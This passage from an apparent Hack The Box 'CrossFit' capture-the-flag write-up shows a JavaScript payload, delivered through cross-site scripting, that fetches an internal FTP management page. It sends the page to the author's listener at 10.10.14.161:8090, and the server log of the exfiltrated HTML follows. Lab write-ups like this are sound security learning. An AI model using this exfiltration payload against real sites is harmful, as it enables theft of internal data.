 However, loading up this URL in my browser just led to another default Apache page.  Next, I decided to see if I could use the same Cross Origin Request Forgery to get the headers of the internal page to see if there was a different view from the proper origin.  

### Cross Origin Request Forgery with JavaScript

TODO: add screenshot of sending request with this payload in Burp

Since the `<script>` tag that triggered the cross-site scripting exploit was using JavaScript \(`alert()`\), I decided that was the best language to write a payload in to try to get the server to access the page I wanted for me.  I did a bit of research and found an easy way to make HTTP requests using JavaScript.

* [https://stackoverflow.com/questions/247483/http-get-request-in-javascript](https://stackoverflow.com/questions/247483/http-get-request-in-javascript)

```javascript
//test.js
//testing access to ftp.crossfit.htb
//
var test = "http://ftp.crossfit.htb/";
var request1 = new XMLHttpRequest();
request1.open('GET', test, false);
request1.send()
var response1 = request1.responseText;

//send response1 to my waiting python http.server
var request2 = new XMLHttpRequest();
request2.open('GET', 'http://10.10.14.161:8090/' + response1, true);
request2.send()
```

I wrote a JavaScript payload to reach out to the `ftp.crossfit.htb` site then send the response back to my waiting Python HTTP server. I used this instead of netcat so the server would stay active and I wouldn't have to restart it each time the server closed the connection.

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ python3 -m http.server 8090                                      
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
10.10.10.208 - - [15/Jan/2021 18:21:03] "GET /test.js HTTP/1.1" 200 -
10.10.10.208 - - [15/Jan/2021 18:24:34] "GET /test.js HTTP/1.1" 200 -
10.10.10.208 - - [15/Jan/2021 18:28:05] "GET /test.js HTTP/1.1" 200 -
10.10.10.208 - - [15/Jan/2021 18:28:05] code 404, message File not found
10.10.10.208 - - [15/Jan/2021 18:28:05] "GET /%3C!DOCTYPE%20html%3E%3Chtml%3E%3Chead%3E%20%20%20%20%3Ctitle%3EFTP%20Hosting%20-%20Account%20Management%3C/title%3E%20%20%20%20%3Clink%20href=%22https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css%22%20rel=%22stylesheet%22%3E%3C/head%3E%3Cbody%3E%3Cbr%3E%3Cdiv%20class=%22container%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22row%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22col-lg-12%20margin-tb%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-left%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3EFTP%20Hosting%20-%20Account%20Management%3C/h2%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-right%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20class=%22btn%20btn-success%22%20href=%22http://ftp.crossfit.htb/accounts/create%22%3E%20Create%20New%20Account%3C/a%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3Ctable%20class=%22table%20table-bordered%22%3E%20%20%20%20%20%20%20%20%3Ctr%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3ENo%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3EUsername%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3ECreation%20Date%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%20width=%22280px%22%3EAction%3C/th%3E%20%20%20%20%20%20%20%20%3C/tr%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/table%3E%20%20%20%20%3C/div%3E%3C/body%3E%3C/html%3E HTTP/1.1" 404 -
```

